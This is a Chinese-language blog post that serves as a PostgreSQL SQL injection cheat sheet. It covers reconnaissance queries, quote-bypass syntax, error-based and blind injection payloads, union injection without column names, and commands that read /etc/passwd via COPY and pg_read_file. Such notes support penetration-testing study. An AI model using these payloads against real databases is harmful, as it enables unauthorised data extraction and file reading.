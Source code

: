 ```yaml
---
layout:     post
title:      Postgresql 注入总结
subtitle:   整理了一下常见的注入方法以备后用（摸鱼结束）
date:       2021-07-21
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/2f46d34c46d5d8c4a8c14031435eeb21.jpg
catalog: true
tags:
    - SQL
---
```




### 常用语句

```sql
# 查询当前数据库
select current_database();

# 查询当前用户
select current_user;

# 查询当前版本
select version();

# 查询数据库版本
SELECT current_setting('server_version_num');

#查看当前权限
select CURRENT_SCHEMA()        

#查询表数据大小
select pg_size_pretty(pg_indexes_size('users'));


# 查询所有数据库
SELECT datname FROM pg_database WHERE datistemplate = false;
select schema_name from information_schema.schemata

# 查询当前数据库中的所有表
select * from pg_tables where schemaname = 'public';
# 这里的information_schema 是个视图，并不真实存在这个库
select table_name from information_schema.tables where table_schema='public';


# 查询列名
select column_name from information_schema.columns where table_name='表名';


```

### 特性

`||` 是字符串拼接

```sql
select 1||2;
```

`""` 双引号包裹为列名 而不是字符串

```sql
select "username" from users
```

支持的比较运算符还包括`in` 、`not in`、 `exists`  、	`not exists` 	`is`

```sql
select username from users where username in ("admin")

# 判断查询的结果是否有结果
select exists (select * from users where username='') 

select (1=1) is true
```

`#` 不是注释符号 而是运算符号`bitwise XOR`

```sql
select 1#2 
```



支持的注释符号 `/**/`  `--`

 

PostgreSQL允许"逃逸"字符串

> PostgreSQL 还允许 "逃逸"字符串中的内容，这是一个 PostgreSQL 对 SQL 标准的扩展。逃逸字符串语法是通过在字符串前写字母 `E`(大写或者小写)的方法声明的。比如 `E'foo'` 。当需要续行包含逃逸字符的字符串时，仅需要在第一行的开始引号前写上 `E` 就可以了。逃逸字符串使用的是C-风格的反斜杠(`\`)逃逸：`\b`(退格)、`\f`(进纸)、`\n`(换行)、`\r`(回车)、`\t`(水平制表符)。此外还支持 `\*digits*` 格式的逃逸字符(这里的 `*digits*` 是一个八进制字节数值)，以及 `\x*hexdigits*` 格式的逃逸字符(这里的`*hexdigits*` 代表十六进制字节值)。你创建的字节序列是否是服务器的字符集编码能接受的正确字符，是你自己的责任。任何其它跟在反斜杠后面的字符都当做文本看待。因此，要在字符串常量里包含反斜杠，则写两个反斜杠(`\\`)。另外，PostgreSQL 允许用一个反斜杠来逃逸单引号(`\'`)，不过，将来版本的 PostgreSQL 将不允许这么用。所以最好坚持使用符合标准的 `''` 。

```sql
# 八进制
select E'\167\150\157\141\155\151'

# 十六进制
select E'\x77\x68\x6f\x61\x6d\x69'
```



字符串边界界定符号(可以绕过无单引号的情况)

```sql
select $$Dianne's horse$$
```



加解密函数

```
md5()
encode('111','base64')
encode('111','hex')
```







### 类型转化

postgresql 要求查询的时候 类型要一致否则会报错

如下 利用`::`

常用的数据类型有

字符类型  `text、varchar、char`

数字类型 `int(int4) 、 decimal(numeric) 、bigint(int8)、smallint(int2) 、real、double`

布尔类型 `boolean`

时间类型 `timestamp 、 date 、time 、interval`  

```sql
select 1::varchar union select 'a'
```



利用 函数进行转换

```sql
select CAST('5' as char)
```



利用函数转换

```sql
select to_char(1234，'999')
select to_date(text, text)
select to_number('12,454.8-', '99G999D9S')
```



### 获取正在查询的语句

```sql
select current_query()
select query from pg_stat_activity where datname='xx' and state ='active'
```





### 报错盲注

手段挺多的只要让运行时报错即可

```sql
# 类型转换
select case when( ascii(substring((select version()),1,1))=1 ) then 1 else (select 'aaa')::int end;

# 溢出
select exp((select case when( (select 1)=1  ) then 1 else 777 end))

# 1/0
select 1/(select case when( ascii(substring((select version()),1,1))>1 ) then 1 else 0 end)
```



### 报错注入

利用了类型转化来进行报错注入

```sql
select cast((select version()) as numeric)
```

![image-20210616110204731](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210616110204731.png)

```sql
select CAST(('zzzz'||(SELECT COALESCE(CAST(schemaname AS CHARACTER(10000)),(CHR(32))) FROM pg_tables OFFSET 0 LIMIT 1)::text||'zzz') AS NUMERIC)
```





### 无列名注入

同其他sql语言

```sql
select b from (select null, null b, null union select * from users)
```



## 读文件

```sql
copy table(column) from '/etc/passwd'
```

![image-20210615222715266](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210615222715266.png)



```sql
select pg_read_file("/etc/passwd");
```

